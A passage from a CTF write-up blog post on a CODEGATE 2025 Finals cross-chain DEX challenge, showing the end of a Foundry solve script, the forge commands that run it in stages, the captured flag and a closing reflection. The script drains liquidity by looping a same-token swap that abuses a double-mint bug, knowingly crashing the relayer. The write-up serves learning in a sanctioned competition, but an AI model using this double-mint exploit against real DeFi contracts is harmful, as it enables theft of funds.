vm.createSelectFork(vm.envString("RPCURL_CODE"));
vm.startBroadcast(privkey);
logBalances_code();
uint amount = 139 + 19 * 3;
dex_code.swap(myAddr, PURR, USDC, amount * 5 ether, false);
amount += 19;
dex_code.swap(myAddr, USDC, PURR, amount * 1 ether, false);
logBalances_code();
vm.stopBroadcast();
}
function code_swap_usdc_purr_5() public {
vm.createSelectFork(vm.envString("RPCURL_CODE"));
vm.startBroadcast(privkey);
logBalances_code();
uint amount = 139 + 19 * 4;
dex_code.swap(myAddr, PURR, USDC, amount * 5 ether, false);
amount += 19;
dex_code.swap(myAddr, USDC, PURR, amount * 1 ether, false);
logBalances_code();
vm.stopBroadcast();
}
function code_swap_usdc_purr_6() public {
vm.createSelectFork(vm.envString("RPCURL_CODE"));
vm.startBroadcast(privkey);
logBalances_code();
uint amount = 139 + 19 * 5;
dex_code.swap(myAddr, PURR, USDC, amount * 5 ether, false);
amount += 19;
dex_code.swap(myAddr, USDC, PURR, amount * 1 ether, false);
logBalances_code();
vm.stopBroadcast();
}
function code_swap_moo_0() public {
vm.createSelectFork(vm.envString("RPCURL_CODE"));
vm.startBroadcast(privkey);
logBalances_code();
// move MOO liquidity from GATE to CODE chain
dex_code.swap(myAddr, PURR, USDC, 1200 ether, false);
dex_code.swap(myAddr, USDC, MOO, 229 ether, false);
logBalances_code();
vm.stopBroadcast();
}
function code_final_solve_0() public {
vm.createSelectFork(vm.envString("RPCURL_CODE"));
vm.startBroadcast(privkey);
logBalances_code();
// get more USDC than DEX has
dex_code.swap(myAddr, MOO, USDC, 1200 ether, false);
// abuse double-mint to get large amount of USDC
// on CODE chain.
// this crashes relayer but doesnt matter anymore
// since all required liquidity is moved to CODE chain
for (int i=0; i<20; i++) {
dex_code.swap(myAddr, USDC, USDC, 350 ether, false);
}
logBalances_code();
vm.stopBroadcast();
}
function code_final_solve_1() public {
vm.createSelectFork(vm.envString("RPCURL_CODE"));
vm.startBroadcast(privkey);
logBalances_code();
// swap USDC for required MOO and PURR
// and solve challenge
dex_code.swap(myAddr, USDC, PURR, 300 ether, false);
dex_code.swap(myAddr, USDC, MOO, 300 ether, false);
logBalances_code();
setup.solve();
vm.stopBroadcast();
}
function logBalances_gate() public {
console.log("\nmy");
console.log("USDC my bal:", tokenA_gate.balanceOf(address(myAddr)));
console.log("PURR my bal:", tokenB_gate.balanceOf(address(myAddr)));
console.log("MOO my bal:", tokenC_gate.balanceOf(address(myAddr)));
console.log("\ndex");
console.log("USDC DEX bal:", tokenA_gate.balanceOf(address(dex_gate)));
console.log("PURR DEX bal:", tokenB_gate.balanceOf(address(dex_gate)));
console.log("MOO DEX bal:", tokenC_gate.balanceOf(address(dex_gate)));
}
function logBalances_code() public {
console.log("\nmy");
console.log("USDC my bal:", tokenA_code.balanceOf(address(myAddr)));
console.log("PURR my bal:", tokenB_code.balanceOf(address(myAddr)));
console.log("MOO my bal:", tokenC_code.balanceOf(address(myAddr)));
console.log("\ndex");
console.log("USDC DEX bal:", tokenA_code.balanceOf(address(dex_code)));
console.log("PURR DEX bal:", tokenB_code.balanceOf(address(dex_code)));
console.log("MOO DEX bal:", tokenC_code.balanceOf(address(dex_code)));
}
}
Running the solve script is split into several parts due to the cross chain component. Note that this is done after setting code for the faucet.
forge script Solve --sig run --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_0 --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_1 --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_2 --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_3 --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_4 --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_5 --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_6 --broadcast && sleep 10
forge script Solve --sig code_swap_moo_0 --broadcast && sleep 10
forge script Solve --sig code_final_solve_0 --broadcast && sleep 10
forge script Solve --sig code_final_solve_1 --broadcast
Get flag codegate2025{f166ec27fa5efeac43470f8ab0f662effc56666a62d64998eafdca85a5fe3b54}
And blood the challenge!!
Thanks to snwo for authoring this challenge!
Conclusion⌗
CODEGATE 2025 Finals CTF was a lot of fun - it was great meeting people from other teams! I also participated in CODEGATE last year in the Junior division (and also came 7th lol), and it was a good experience, so I am glad I could attend once again!
It was also my first time pulling an all nighter for the CTF - since it was 24 hours ranging from 10am to 10am the next day, a lot of teams also stayed the entire time.
I would like to thank organisers and challenge authors for the CTF, and my team for their tremendous effort in the CTF, and I hope to attend again next year!
As always, if you spotted any errors/typos in the blog, or have questions, feel free to DM/ping me on discord thesavageteddy.
Btw, props to organisers for putting our team name emojis 🤬🇫🇷🛹🐻 onto both the badge and banner lol.
